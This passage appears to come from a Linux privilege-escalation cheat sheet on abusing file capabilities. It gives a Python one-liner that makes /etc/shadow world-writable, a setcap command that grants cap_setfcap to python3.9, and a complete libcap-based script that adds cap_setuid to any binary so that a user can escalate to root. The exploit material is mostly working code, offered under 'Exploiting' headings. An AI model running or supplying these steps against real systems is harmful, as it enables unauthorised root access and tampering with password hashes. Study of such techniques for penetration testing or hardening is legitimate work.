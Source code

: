 #### Exploiting

```bash
python -c 'import os;os.chmod("/etc/shadow",0o666)'
```


## cap_setfcap

#### Misconfiguring

```bash
setcap cap_setfcap+ep /usr/bin/python3.9
```

#### Exploiting

- set the library to load for setcap
```python title:setcapability.py
import ctypes
import sys

# Load the needed library (libcap.so.2)
libcap = ctypes.cdll.LoadLibrary("libcap.so.2")

# Define argument and return types for the functions we are going to use
libcap.cap_from_text.argtypes = [ctypes.c_char_p]
libcap.cap_from_text.restype = ctypes.c_void_p
libcap.cap_set_file.argtypes = [ctypes.c_char_p, ctypes.c_void_p]

# Check if path is passed as an argument
if len(sys.argv) < 2:
    print("Usage: python script.py <path_to_binary>")
    sys.exit(1)

# Get the binary path from arguments
path = sys.argv[1]
print(f"Setting capabilities for binary: {path}")

# The capability you want to add (in this case, cap_setuid)
cap = 'cap_setuid+ep'

# Convert the capability text to internal format (encode as byte string)
cap_t = libcap.cap_from_text(cap.encode('utf-8'))

# Set the capability for the specified binary
status = libcap.cap_set_file(path.encode('utf-8'), cap_t)

# Check if the operation was successful
if status == 0:
    print(f"Successfully added {cap} to {path}")
else:
    print(f"Failed to add {cap} to {path}")

```
